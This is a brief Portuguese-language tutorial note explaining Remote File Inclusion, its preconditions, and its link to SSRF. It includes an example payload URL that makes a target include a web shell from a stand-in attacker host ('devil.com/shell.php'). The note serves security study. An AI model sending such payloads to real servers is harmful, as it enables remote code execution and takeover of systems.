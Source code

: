 **Remote File Inclusion** permite a inclusão de algum arquivo no servidor alvo. É feito quando o servidor faz alguma requisição que permite que passemos algum link externo a ele, ou quando temos acesso ao `schema`.

Se tivermos acesso ao schema, podemos hospedar um arquivo malicioso, e injeta-lo no servidor para ver o comportamento do servidor.

É vantajoso quando o arquivo é processado pelo servidor, pois se for processado pelo front-end não faz diferença.

<input style="font-size:18pt;padding:5px;width:100%;" value="http://corp.com/?file=file://about.php">
Podemos injetar o caminho de algum externo ao servidor, pois controlamos o `schema`.
<input style="font-size:18pt;padding:5px;width:100%;" value="http://corp.com/?file=http://devil.com/shell.php">

Também é possível fazer quando podemos fazer upload em algum sistema, e ele não valida o tipo de arquivo.

---

Também pode dar origem a um SSRF, pois o servidor que fará a requisção.